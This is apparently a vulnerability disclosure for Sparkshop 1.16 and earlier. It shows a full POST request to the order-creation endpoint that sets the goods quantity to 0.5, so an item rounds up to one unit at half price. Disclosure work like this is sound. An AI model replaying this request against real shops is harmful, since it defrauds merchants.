

### Vulnerability Introduction

target:https://gitee.com/sparkshop/sparkshop

version: Sparkshop<=1.16

By modifying the quantity of goods in the order, we can achieve half price purchase of goods


### Vulnerability reproduction

First, obtain an order and modify the quantity of goods

```
POST /index/order/createOrder HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 173
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
sec-ch-ua-platform: "Windows"
Origin: 
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: sparkShop=

goods%5B0%5D%5Bgoods_id%5D=3&goods%5B0%5D%5Brule_id%5D=0&goods%5B0%5D%5Bnum%5D=0.5&pay_way=balance&coupon=0&address_id=1&cart_id=&orderType=1&remark=&deliver_type=1&store_id=0
```

Here we have changed the parameters of goods% 5B0% 5D% 5Bnum% 5D to 0.5, which ensures that the quantity of our products after purchase is rounded to 1.



As shown in the picture, successfully purchased the product at half price.